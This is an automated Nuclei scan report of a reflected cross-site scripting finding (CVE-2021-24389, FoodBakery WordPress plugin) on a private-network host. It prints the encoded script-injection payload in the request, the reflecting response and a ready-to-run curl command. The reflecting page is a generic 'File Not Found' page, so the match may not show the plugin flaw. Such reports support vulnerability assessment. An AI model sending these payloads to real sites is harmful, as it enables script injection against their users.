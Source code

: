 ### FoodBakery < 2.2 - Reflected Cross-Site Scripting (XSS) (CVE-2021-24389) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2021-24389**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/listings/?search_title=&location=&foodbakery_locations_position=filter&search_type=autocomplete&foodbakery_radius=10%22%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

**Timestamp**: Wed Jun 8 20:22:06 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | FoodBakery < 2.2 - Reflected Cross-Site Scripting (XSS) |
| Authors | daffainfo |
| Tags | cve, cve2021, wordpress, xss, wp-plugin |
| Severity | medium |
| Description | The WP Foodbakery WordPress plugin before 2.2, used in the FoodBakery WordPress theme before 2.2 did not properly sanitize the foodbakery_radius parameter before outputting it back in the response, leading to an unauthenticated Reflected Cross-Site Scripting (XSS) vulnerability. |
| CVSS-Metrics | [CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N) |
| CWE-ID | [CWE-79](https://cwe.mitre.org/data/definitions/79.html) |
| CVE-ID | [CVE-2021-24389](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2021-24389) |
| CVSS-Score | 6.10 |

**Request**
```http
GET /listings/?search_title=&location=&foodbakery_locations_position=filter&search_type=autocomplete&foodbakery_radius=10%22%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 307
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/listings/?search_title=&location=&foodbakery_locations_position=filter&search_type=autocomplete&foodbakery_radius=10"</script><script>alert(document.domain)</script></B> was not found.</BODY></HTML>
```

References: 
- https://nvd.nist.gov/vuln/detail/cve-2021-24389
- https://wpscan.com/vulnerability/23b8b8c4-cded-4887-a021-5f3ea610213b

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36' 'http://192.168.198.179:8080/listings/?search_title=&location=&foodbakery_locations_position=filter&search_type=autocomplete&foodbakery_radius=10%22%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)